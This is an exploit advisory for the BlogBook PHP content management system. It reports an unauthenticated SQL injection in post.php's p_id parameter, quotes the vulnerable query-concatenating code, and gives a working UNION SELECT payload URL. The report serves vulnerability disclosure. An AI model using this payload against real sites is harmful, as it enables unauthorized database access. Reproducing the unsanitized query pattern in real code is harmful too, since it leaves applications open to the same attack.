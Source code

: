 # BlogBook post.php p_id Parameter SQL Injection

**Exploit Title: BlogBook post.php p_id Parameter SQL**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows, Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

A SQL injection vulnerability exists in the [post.php] file of the BlogBook application. User-supplied input from the p_id GET parameter is directly concatenated into SQL query strings without adequate sanitization. This affects both an UPDATE query designed to increment post view counts and a SELECT query used to fetch post data for display. Consequently, an unauthenticated remote attacker can inject and execute arbitrary SQL commands, potentially leading to unauthorized data access, modification, or further compromise of the database.

## Vulnerability Point

`blogbook-main/post.php:27`

## Vulnerable Parameter

`p_id`

## Vulnerable Code

```php
 <?php
                if (isset($_GET['p_id'])) {
                    $link_post_id = $_GET['p_id'];

                    $view_query = "UPDATE posts SET post_views_count=post_views_count +1 WHERE post_id=$link_post_id";
                    $send_query = mysqli_query($connection, $view_query);

                    $query = "SELECT * FROM posts WHERE post_id=$link_post_id";
                    $select_all_posts_query = mysqli_query($connection, $query);


                    while ($row = mysqli_fetch_assoc($select_all_posts_query)) {
                        $post_title = $row['post_title'];
                        $post_id = $row['post_id'];
                        $post_author = $row['post_author'];
                        $post_author_id = $row['author_id'];
                        $post_date = $row['post_date'];
                        $post_image = $row['post_image'];
                        $post_content = $row['post_content'];
                        // $post_content = strip_tags($row['post_content'], "");
                        $post_category_id = $row['post_category_id'];
                        $post_comment = $row['post_comment_count'];
                        $post_views_count = $row['post_views_count'];
                        $query = "SELECT * FROM categories WHERE cat_id={$post_category_id}";
                        $select_categories_id = mysqli_query($connection, $query);
                        $cat = mysqli_fetch_assoc($select_categories_id);
                        $post_category = $cat['cat_title'];

                ?>
```
## Payload

`http://localhost/post.php?p_id=-1%20UNION%20SELECT%20NULL,NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL%20--`

![post.php sqli](./assets/post_sqli.png)
